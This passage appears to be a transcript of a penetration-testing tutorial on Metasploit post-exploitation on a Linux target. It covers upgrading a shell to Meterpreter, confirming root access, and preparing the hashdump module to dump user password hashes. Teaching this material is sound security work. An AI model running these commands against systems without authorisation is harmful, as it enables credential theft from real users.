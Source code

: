 Put this in the background, and I will upgrade this session.

```
sessions
sessions -u 1
sessions 2
```

If I try and type in `hashdump`, similar to what we had done on Windows, that'll tell us unknown command hashdump.

```
meterpreter > hashdump
```

Given that that is the case, we need to load in the hashdump module, or we need to utilize the post exploitation module called hashdump.

The first thing we want to do is perform some enumeration.

```
meterpreter > sysinfo
```

Enumerate our current permissions or the user that we currently have access to.

```
meterpreter > getuid
```

You can see we have the user id of 0, which means we are root.

We can confirm this:  

```
meterpreter > shell
whoami
root
```

That means we can dump the Linux user account hashes.

Terminate this channel. And then I'll put our Meterpreter session in the background.

For some reason, that dies.

```
meterpreter > exit
```

We're just going to upgrade our previous command shell again.

```
sessions
sessions -u 1
sessions
```

[Linux Gather Dump Password Hashes for Linux Systems](https://www.rapid7.com/db/modules/post/linux/gather/hashdump/)

Post Module to dump the password hashes for all users on a Linux System
